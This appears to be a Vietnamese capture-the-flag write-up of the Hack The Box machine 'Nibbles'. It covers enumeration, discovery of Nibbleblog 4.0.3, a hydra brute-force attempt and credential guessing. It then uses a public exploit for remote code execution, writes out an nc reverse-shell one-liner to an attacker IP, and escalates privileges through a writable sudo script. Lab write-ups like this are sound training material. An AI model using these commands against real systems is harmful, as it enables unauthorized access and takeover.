# Nibbles

## 1. Enum

Check kết nối đến target `10.129.200.170`

`ping 10.129.200.170`

Dùng nmap enum port và dịch vụ

```bash
──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -sC -A 10.129.200.170 -T5    
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-04 03:10 EDT
Nmap scan report for 10.129.200.170
Host is up (0.44s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.13 - 4.4
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   354.15 ms 10.10.16.1
2   695.38 ms 10.129.200.170

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.84 seconds                                                                                                                                                                           
```

## 2. Web Footprinting

```bash
reDrose18@htb[/htb]$ whatweb 10.129.42.190

http://10.129.42.190 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190]
```

truy cập vào IP hoặc dùng curl 

```bash
reDrose18@htb[/htb]$ curl http://10.129.42.190

<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Ta thấy nó gợi ý đến `/nibbleblog/`

Check lại với whatweb 

```bash
reDrose18@htb[/htb]$ whatweb http://10.129.42.190/nibbleblog

http://10.129.42.190/nibbleblog [301 Moved Permanently] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190], RedirectLocation[http://10.129.42.190/nibbleblog/], Title[301 Moved Permanently]
http://10.129.42.190/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
```

### Directory Enumeration

```bash
reDrose18@htb[/htb]$ gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

===============================================================

Gobuster v3.0.1

by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================

[+] Url:            http://10.129.42.190/nibbleblog/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/17 00:10:47 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/admin.php (Status: 200)
/content (Status: 301)
/index.php (Status: 200)
/languages (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/themes (Status: 301)
===============================================================
2020/12/17 00:11:38 Finished
===============================================================
```
                                                            
Bây giờ bạn có thể thấy ta có các web, vào tất cả và check xem có chức năng gì, khai thác được gì, các file static có cung cấp thông tin gì đáng để ý hay không

Ở trang `admin.php` ta thấy phần đăng nhập 



Sau vài lẩn thử sai hoặc bấm reset password ta sẽ bị block với thông báo `Nibbleblog security error - Blacklist protection`

Xem các file static ta thấy có thông tin:

```bash
reDrose18@htb[/htb]$ curl -s http://10.129.42.190/nibbleblog/content/private/users.xml | xmllint  --format -

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users>
  <user username="admin">
    <id type="integer">0</id>
    <session_fail_count type="integer">2</session_fail_count>
    <session_date type="integer">1608182184</session_date>
  </user>
  <blacklist type="string" ip="10.10.10.1">
    <date type="integer">1512964659</date>
    <fail_count type="integer">1</fail_count>
  </blacklist>
  <blacklist type="string" ip="10.10.14.2">
    <date type="integer">1608182171</date>
    <fail_count type="integer">5</fail_count>
  </blacklist>
</users>
```

Ở đây cung cấp là có tài khoản `admin` và số lần đăng nhập sai của IP, và fail 5 lần ta thấy sẽ bị block 

--> Tôi đã thử hydra và không thu được kết quả, vì block quá sớm, quá ít lần thử 

`hydra -l admin -P passwords.txt http://10.129.200.170/nibbleblog/ https-postform "/admin.php:username=^USER^&password=^PASS^:F=Incorrect"`

mặt khác ta thu thập được 

```bash
reDrose18@htb[/htb]$ curl http://10.129.42.190/nibbleblog/README

====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com

===== Social =====

* Twitter: http://twitter.com/nibbleblog
* Facebook: http://www.facebook.com/nibbleblog
* Google+: http://google.com/+nibbleblog

===== System Requirements =====

* PHP v5.2 or higher
* PHP module - DOM
* PHP module - SimpleXML
* PHP module - GD
* Directory “content” writable by Apache/PHP

<SNIP>
```

version của Nibbleblog là v4.0.3 và theo search theo google ta có 



Chỉ có 1 CVE này nhưng nó cần tài khoản truy cập vào dashboard

==> Bạn tắc ở đây? tôi cũng tắc ở đây :)) Và kết quả xem hướng dẫn và các write-up thì nó đoán cm nó mật khẩu là `admin:nibbles` dume

## 3. Khai thác

Sau khi có password thì khai thác đơn giản hơn 

theo CVE và đã có mã khai thác: https://github.com/hadrian3689/nibbleblog_4.0.3

`python3 nibbleblog_4.0.3.py -t http://IP/nibbleblog/admin.php -u admin -p nibbles -rce whoami`



Bây giờ ta sẽ mở reverse shell



Dùng khá nhiều câu lệnh để mở reverse shell (https://www.revshells.com/) thì cuối cùng được kết quả với: 

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.167 4444 >/tmp/f`





Ta có flag đầu tiên

## 4. EP (Leo quyền)

Tiếp tục với `sudo -l` ta có được 



Từ đây ta unzip





Ta thấy với file `monitor.sh` ta được phép chạy trên quyền root (theo `sudo -l`) và nibbler lại có quyền chỉnh sửa cũng như excute 



Thêm lệnh mở `/bin/bash` vào file `monitor.sh`



Và đã có thể đọc flag root




